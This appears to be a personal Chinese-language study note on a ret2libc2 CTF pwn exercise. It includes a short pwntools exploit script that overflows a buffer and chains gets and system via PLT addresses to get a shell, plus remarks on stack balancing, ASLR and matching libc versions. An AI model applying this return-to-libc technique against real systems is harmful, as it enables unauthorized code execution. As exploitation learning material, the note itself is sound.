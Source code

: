





```python
##!/usr/bin/env python
from pwn import *

sh = process('./ret2libc2')

gets_plt = 0x08048460
system_plt = 0x08048490
pop_ebx = 0x0804843d
buf2 = 0x804a080
payload = flat(
    [b'a' * 112, gets_plt, pop_ebx, buf2, system_plt, 0xdeadbeef, buf2])
sh.sendline(payload)
sh.sendline('/bin/sh')
sh.interactive()
```



pop_ebx不是调用约定的事,是为了堆栈平衡,正常执行下去,那加一个nop也行?????

http://t.zoukankan.com/afanti-p-12661561.html

![image-20220918190452872](images/image-20220918190452872.png)



![image-20220918192042072](images/image-20220918192042072.png)



![image-20220918192454709](images/image-20220918192454709.png)

![image-20220918192643522](images/image-20220918192643522.png)

![image-20220918192759272](images/image-20220918192759272.png)



开启aslr随机化后,加载的地址都在变,但后三位不变

![image-20220918193720080](images/image-20220918193720080.png)





搜索libc一直失败

![image-20220918195605813](images/image-20220918195605813.png)



要先把题目的libc版本切换后才可以找到正确的!!!

![image-20220918195807091](images/image-20220918195807091.png)

### 调用约定

![image-20220918190058007](images/image-20220918190058007.png)





ida跳转到指定地址快捷键 g